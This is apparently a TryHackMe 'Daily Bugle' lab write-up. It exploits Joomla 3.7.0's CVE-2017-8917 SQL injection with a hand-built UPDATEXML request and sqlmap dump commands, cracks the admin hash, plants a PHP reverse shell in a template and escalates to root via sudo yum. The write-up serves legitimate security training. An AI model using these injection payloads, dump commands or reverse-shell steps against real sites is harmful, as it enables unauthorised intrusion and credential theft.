



### THM - Daily Bugle

Link to the room: [Daily Bugle](https://tryhackme.com/room/dailybugle)

Difficulty: Hard 

"Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum." - THM

#### Recon

From the introduction of this room, we know that the host is running Joomla CMS. We can do some basic enum on the website to see what we can find.


Checked wappalyzer and we can confirm that the website is running Joomla CMS. Let's try to find the version of Joomla. I made a script to find the version of Joomla. You can find it [here](joomla_version.py).


Or you could just pull the version from joomla.xml file. Using curl

 ```curl http://{URI}/administrator/manifests/files/joomla.xml | grep '<version>' ```


Now we know that the version of Joomla is 3.7.0. Let's try to find the CVE for this version. 

[https://www.cvedetails.com/cve/CVE-2017-8917/](https://www.cvedetails.com/cve/CVE-2017-8917/)

Vulnerability Details : CVE-2017-8917	

"SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors."

Great! We found a CVE for this version of Joomla.

Let's run nmap to see what ports are open on the host. Since this is not a black box, let's practice to not be noisey. 

```sudo nmap -v -sS {IP}```


 Now, Let's try to exploit it.

#### Exploit

After some research, I found that there are multiple ways to exploit this. By using [python script](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py) by stefanlucas, metasploit module, and sqlmap.


**Using the python script.**


**Using metasploit module.**

We will be using ```exploit/unix/webapp/joomla_comfields_sqli_rce```




And we got an unknown error message. Let's look at the source code.


The module expects some return value after SQLi. Let's look at what request is being sent.



We can see that the module is sending this sql query ```(UPDATEXML(2170,CONCAT(0x2e,0x#{start_h},(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x#{fin_h}),4879))```


Let's try to send this request manually. Our request will look like thie ```http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=(UPDATEXML(2170,CONCAT(0x2e,0x1973508a80,(SELECT MID((IFNULL(CAST(TO_BASE64(table_name) AS CHAR),0x20)),1,22) FROM information_schema.tables order by update_time DESC LIMIT 1),0x4590478a88),4879))```

Based on the sql query in the request, it looks like it is trying to use TO_BASE64 to convert the table name to base64. However we get "FUNCTION joomla.TO_BASE64 does not exist" error.


Upon further research, I found that TO_BASE64 is a function in MySQL that was introduced in version 5.6.10. This host is using MariaDB which is a fork of MySQL and I'm assuming that it is using an older version of MariaDB.


This would explain why we are getting the error. It was probably done on purpose to prevent using metasploit module which would resulted in a shell in one go. OR we can fix this msf module. Let's try to use sqlmap to exploit this.

**Using sqlmap.** [https://www.exploit-db.com/exploits/42033](https://www.exploit-db.com/exploits/42033)

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]```


Then we can retrieve the tables with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla --tables```


Then we can retrieve the columns with this command...

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” --columns```


Then we can dump the data with this command... In this case, we only want to dump the username and password.

```sqlmap -u "http://10.10.31.42/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] -D joomla -T “#__users” -C username,password --dump```


*NOTE - While I was writing this the host timed out so I have to re-launch the host. Notice different host IP* 

Now we have the hash password for the user "jonah". Let's try to crack the hash with JohnTheRipper. I will be using rockyou.txt wordlist and hashid module from hashcat to identify the hash type.

```hashid -m {hash}```

```john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt {HASH_FILE}```


Now that we have the password, let's try to login to the admin panel. According to [Joomla documentation](https://docs.joomla.org/Administrator_(Application)), the default path to access the admin panel is ```/administrator```. Let's try it so we dont have to FUZZ the path.


Now we can access the admin panel. Let's try to upload a reverse shell. we will be using this [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by pentestmonkey. We will be editing a page from a template with the reverse shell code. In this case, we will use index.php page in the beez3 template.




Let's start a netcat listener and access the index page by clicking template preview.


Great!! Now we have a shell.

#### Privilege Escalation

Let's import python pty to get a better shell ```python -c 'import pty;pty.spawn("/bin/bash")'``` and do some enumeration. See what we can find.


After some enum, we found a configuration file that contains a password to the database. Let's try to use this password to switch to host user.


The password is indeed for the user "jjameson". Let's get user flag and try to escalate privilege. Let's check ```sudo -l``` to see what we can run as root.


Perfect! We can run yum as root. Let's check gtfobins for yum. [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/) We can see that we can use yum to run a shell as root and get root flag.


Thank you for reading. I hope you enjoyed this writeup. 


#### Resources
https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website
https://mariadb.com/kb/en/mariadb-1005-release-notes/
https://database.guide/6-ways-to-check-your-mariadb-version/
https://docs.joomla.org/Administrator_(Application)
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
https://gtfobins.github.io/gtfobins/yum/